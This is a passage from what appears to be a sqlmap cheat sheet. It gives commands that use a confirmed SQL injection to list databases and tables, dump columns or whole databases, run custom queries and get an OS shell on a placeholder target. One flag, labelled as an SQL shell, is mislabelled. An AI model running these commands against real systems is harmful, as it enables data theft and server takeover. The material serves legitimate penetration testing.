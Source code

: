 If you got SQL injection positive somewhere, then sqlmap will automatically create a session file(.sqlite) for later use. Now, If you want to try some other commands later, you can use the session file directly (It will save your time to re-try all the possible payloads and identify the vulnerability and all.)

```sh
sqlmap -u “https://target_site.com/page?p1=value1" -s SESSION-FILE.sqlite --dbs
```
## Post Exploitation Commands

If the SQL injection vulnerability is observed positive then you can use the following commands to Exploit the SQL injection vulnerability.

### List the Databases
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --dbs
```
### List Tables of Database TARGET_DB
```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --tables
```
### List Columns of Table TARGET_TABLE of Database TARGET_DB
```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --columns
```
### Dump Specific Data of Columns of Table TARGET_TABLE of Database TARGET_DB
```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE -C "Col1,Col2" --dump
```
### Fully Dump Table TARGET_TABLE of Database TARGET_DB

```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --dump
```
### Dump full Database

```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --dump
```

### Custom SQL query

```sh
sqlmap -u “https://target_site.com/page?p1=value1” --sql-query "SELECT * FROM TARGET_DB;"
```
### Get OS Shell
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --os-shell
```
### Get SQL shell
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --sqlmap-shell
```
## SQLMap Proxy

